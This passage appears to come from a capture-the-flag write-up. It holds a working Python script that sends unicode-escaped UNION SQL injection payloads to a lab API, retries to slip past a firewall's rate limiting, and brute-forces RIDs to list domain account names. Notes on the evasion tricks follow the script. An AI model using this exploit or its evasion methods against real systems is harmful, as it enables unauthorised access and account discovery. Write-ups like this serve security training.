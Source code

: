 I'll need a script to brute force across the possible SIDs that could be
in use by users. What I came up with was this:



    #!/usr/bin/env python3

    import binascii
    import requests
    import struct
    import sys
    import time


    payload_template = """test' UNION ALL SELECT 58,58,58,{},58-- -"""


    def unicode_escape(s):
        return "".join([r"\u{:04x}".format(ord(c)) for c in s])


    def issue_query(sql):
        while True:
            resp = requests.post(
                "http://10.10.10.179/api/getColleagues",
                data='{"name":"' + unicode_escape(payload_template.format(sql)) + '"}',
                headers={"Content-type": "text/json; charset=utf-8"},
                proxies={"http": "http://127.0.0.1:8080"},
            )
            if resp.status_code != 403:
                break
            sys.stdout.write("\r[-] Triggered WAF. Sleeping for 30 seconds")
            time.sleep(30)
        return resp.json()[0]["email"]


    print("[*] Finding domain")
    domain = issue_query("DEFAULT_DOMAIN()")
    print(f"[+] Found domain: {domain}")

    print("[*] Finding Domain SID")
    sid = issue_query(f"master.dbo.fn_varbintohexstr(SUSER_SID('{domain}\Domain Admins'))")[:-8]
    print(f"[+] Found SID for {domain} domain: {sid}")

    for i in range(500, 10500):
        sys.stdout.write(f"\r[*] Checking SID {i}" + " " * 50)
        num = binascii.hexlify(struct.pack("<I", i)).decode()
        acct = issue_query(f"SUSER_SNAME({sid}{num})")
        if acct:
            print(f"\r[+] Found account [{i:05d}]  {acct}" + " " * 30)
        time.sleep(1)

    print("\r" + " " * 50)



There were two tricky parts:

-   The WAF has some kind of dumb rate limiting. I think it's looking at
    requests over some time period and returning 403 if there are too
    many. I just have a loop that sleeps for 30 seconds and tries again
    if there's a 403. The current parameters are to sleep 30 seconds on
    a 403, and 1 second between requests. It's possible those could be
    optimized.
-   Getting Python to actually send `\u0027` was tricker than I
    expected. I originally was doing `json={"name":""}` in the POST, but
    Python is too nice about formatting that. Changing it to `data` and
    setting it the way I have above took some trial and error through
    the proxy.
-   Sending through Burp was really nice, and it didn't really slow
    anything down since I was already going slow for the WAF.
